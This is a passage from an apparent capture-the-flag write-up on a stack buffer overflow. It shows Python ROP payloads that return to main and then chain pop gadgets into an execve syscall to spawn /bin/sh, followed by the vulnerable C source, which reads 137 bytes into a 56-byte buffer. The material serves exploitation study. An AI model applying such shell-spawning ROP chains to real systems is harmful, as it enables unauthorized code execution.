 ```python
    main_addr
]
payload += formatter(params)
print('payload (len : {}):\n{}'.format(len(payload), payload))

input('[1] press any key to send the payload...')
sender(payload)

input('press any key to send /bin/sh...')
sender(b'/bin/sh\x00')


```

After the `read` the execution flow is redirected to the `main`. When the program executes again a similar exploit is performed again, this time calling an `execve` which is used to spawn a shell:

```python
payload = b''
payload += padding
payload += b'B'*8
params = [
    # execve
    pop_rdx_rsi['address'],
    zeros_addr,
    zeros_addr,
    pop_rdi['address'],
    binsh_addr,
    pop_rax['address'],
    0x3b,
    syscall['address']
]
payload += formatter(params)
print('payload (len : {}):\n{}'.format(len(payload), payload))

input('[2] press any key to send the payload...')
sender(payload)
```

Source code:

```c
#include <stdio.h>
#include <unistd.h>

void empty(char * buffer){
    for (int i = 0; i<72/4; i+=4)
        *((int *)buffer + i) = 0xc3f48948;
}

int main(int argc, char * argv[]){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

    int i;
    char buffer[56];
    printf("What shall we use\nTo fill the empty spaces\nWhere we used to pwn?\n");
    read(0, buffer, 137);
    empty(buffer);

    return 0;
```
